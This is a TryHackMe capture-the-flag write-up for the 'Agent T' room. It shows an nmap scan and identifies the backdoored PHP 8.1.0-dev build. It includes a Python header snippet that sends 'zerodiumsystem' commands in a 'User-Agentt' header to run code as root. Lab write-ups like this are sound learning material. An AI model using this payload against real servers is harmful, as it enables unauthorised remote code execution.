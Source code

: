 
# TryHackme Agent T Write-up

Below is my write-up for the room [Agent T](https://tryhackme.com/room/agentt).

We start the machine and let us run a `nmap` scan to see what we can find.

```bash
└─$ sudo nmap -sC -sV 10.10.245.251
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-07 22:00 AEST
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.245.251
Host is up (0.30s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard

```
We can only see one port open. This just lands us on an SB Admin 2 page.

![SBAdminexample](/THM/Images/AgentT/AgentTdashboard.png)

Looking through the HTML code and running a gobuster gives us nothing useful.

Let's see what we can capture through Burp Suite. The only thing we can see that really interests us is the PHP build running on the server `PHP 8.1.0 dev`.


![BurpsuiteCapture](/THM/Images/AgentT/AgentTBurpsuiteCapture.png)

If we search through the exploit database, we can find the vulnerability. Exploit by `flast101` - [Exploit DB webpage](https://www.exploit-db.com/exploits/49933). The specific version was released with a back door on March 28th 2021, but the backdoor was quickly discovered and patched up. An attacker can execute arbitrary code by sending the commands on the User-Agent header.

There are a few good examples of exploits around, but what they all demonstrate is that sending 

```bash
headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');" # Here is where our commands will be sent
            }

```
The server will run those commands. Using the Python script from `flast101`. 

![Flag](/THM/Images/AgentT/AgentTPythonRCE.png)

We are able to see that the vulnerability is high risk as we can send commands to the server as root. 

